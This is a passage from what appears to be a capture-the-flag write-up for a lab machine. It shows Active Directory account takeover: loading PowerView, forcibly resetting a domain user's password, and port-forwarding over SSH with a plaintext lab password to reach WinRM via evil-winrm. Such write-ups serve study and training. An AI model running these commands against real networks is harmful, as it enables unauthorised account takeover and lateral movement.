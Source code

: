 ### ForceChangePassword

We can upload PowerView.ps1 via `scp` to the current user's directory, and then run these:

<pre class="language-powershell"><code class="lang-powershell"><strong>. .\PowerView.ps1
</strong><strong>$pass = ConvertTo-SecureString 'Password@123' -AsPlainText -Force 
</strong>Set-DomainUserPassword -Identity dr.zaiuss -AccountPassword $pass
</code></pre>

Since `dr.zaiuss` is not part of the SSH group, we have to port forward via `ssh` to access that user using `evil-winrm`.&#x20;

```
$ sshpass -p 'Gu4nCh3C4NaRi0N!23' ssh -L 5985:127.0.0.1:5985 3V4Si0N@LicorDeBellota.htb
```

<figure><img src="../../../.gitbook/assets/image (62) (8).png" alt=""><figcaption></figcaption></figure>

Then, we can upload PowerView.ps1 and run the same commands with `superfume` this time. Since `superfume` is also not part of the SSH group, we can just use `evil-winrm` again:

<figure><img src="../../../.gitbook/assets/image (56) (2).png" alt=""><figcaption></figcaption></figure>

### Developer RE --> Creds
